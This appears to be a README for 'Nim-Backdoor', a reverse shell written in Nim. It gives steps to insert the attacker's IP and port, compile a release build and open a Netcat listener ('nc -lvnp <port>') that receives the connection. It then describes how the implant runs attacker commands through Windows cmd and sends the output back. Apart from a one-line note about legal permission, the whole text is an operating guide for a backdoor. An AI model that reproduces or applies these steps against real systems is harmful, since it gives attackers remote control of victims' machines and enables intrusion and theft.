 # Nim-Backdoor
This is a simple reverse shell write in Nim lang

Replace "attacker_ip" and attacker_port with the attacker's IP and port, respectively.
Compile the Nim code using the Nim compiler:

bash

    nim c -d:release --opt:speed --cpu:amd64 reverse_shell.nim

On the attacker's machine, listen for the connection using a tool like nc (Netcat):

bash

    nc -lvnp <port>

Notes:

    This script connects back to the attacker's machine using a TCP socket, then waits for commands to execute.
    It captures the output of the command using Windows cmd and sends the result back to the attacker.
    Only run this on systems where you have legal permission to do so, such as penetration testing environments
